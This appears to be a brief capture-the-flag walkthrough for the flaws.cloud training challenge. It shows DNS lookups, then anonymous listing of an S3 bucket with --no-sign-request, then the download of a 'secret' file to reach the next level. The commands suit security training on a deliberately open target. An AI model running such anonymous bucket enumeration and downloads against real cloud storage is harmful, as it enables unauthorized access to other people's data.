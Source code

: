 Hacking Into a public S3 bucket

```
nslookup flaws.cloud
```

```
nslookup  52.92.196.35
```

```
aws s3 ls s3://flaws.cloud  --no-sign-request
aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2

```

```
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html --no-sign-request secret.html
```

```
cat secret.html

open secret.html
```

;; Find the link to next level